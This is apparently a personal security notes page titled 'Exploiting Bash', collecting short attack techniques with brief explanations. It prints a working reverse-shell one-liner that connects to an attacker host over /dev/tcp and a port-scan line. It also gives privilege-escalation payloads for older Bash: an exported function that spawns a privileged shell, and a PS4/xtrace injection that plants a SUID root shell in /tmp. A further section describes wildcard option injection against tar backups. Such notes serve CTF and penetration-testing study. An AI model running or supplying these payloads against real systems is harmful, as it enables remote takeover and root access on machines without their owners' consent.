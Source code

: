# Exploiting Bash

**author**:: Nathan Acks  
**date**:: 2022-07-11

## A Simple Reverse Shell

```bash
bash -li &> /dev/tcp/$ATTACKER_IP/$LISTENER_PORT 0>&1
```

Catch it with netcat or socat.

(That said, the fact that all of my file descriptors wind up pointing at /dev/tcp is a little mysterious to me. I *think* what's happening here is that /dev/tcp is bidirectional "out of the box" - incoming data comes out, just as outgoing data goes in - so binding all three "core" file descriptors to it does the right thing. That, and realize that the `X>&Y` construct means "bind file descriptor X to file descriptor Y", and `&>` is just short for `2>&1 >`, and `>` is just short for `1 >`. So really what's happening here is that we bind STDERR to STDOUT with and implicit `2>&1`, then bind STDOUT to /dev/tcp with an implicit `1 >`, then bind STDIN to /dev/tcp as well with `0>&1`.)

* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Port Scanning

```bash
(: </dev/tcp/$IP_ADDRESS/$PORT) &>/dev/null && echo "OPEN" || echo "CLOSED"
```

## Using Wildcard Expansion to Pass Command Line Options

The wildcard expansion (`*`) in Bash scripts doesn't get pushed to the command, but is instead expanded in place. This means that files named like command-line switches *will be interpreted as command line switches*. This can be used, for example, to exploit sloppy tar-based backup scripts.

## Exploiting Functions in Bash < 4.2-048

In versions of Bash < 4.2-048, it's possible to export functions with the same form as absolute paths to files. These functions will then be executed instead of the fully-specified path *if* the calling application is relying on the current shell for helper execution.

For example:

```bash
function /path/to/executable { /bin/bash -p; }
export -f /path/to/executable
```

## Exploiting $PS4 in Bash < 4.4

When bash is in debugging mode (SHELLOPTS=xtrace), the $PS4 prompt is used to display debugging information.

*It would appear that this prompt somehow inherits the permissions of the executable being run.* This includes SUID/SGID permissions (at least for Bash < 4.4)!

If you have access to a SUID/SGID executable, this can be abused to create root shells:

```bash
env -i \
SHELLOPTS=xtrace \
PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' \
/path/to/suid/executable
```

Again, this only works *if* the calling application is relying on the current shell for helper execution.

## Avoid Dropping Privileges with SUID Bash

Bash will drop privileges by default if SUID. To avoid this, simply supply the `-p` flag. (Not sure how useful this is beyond CTFs...)
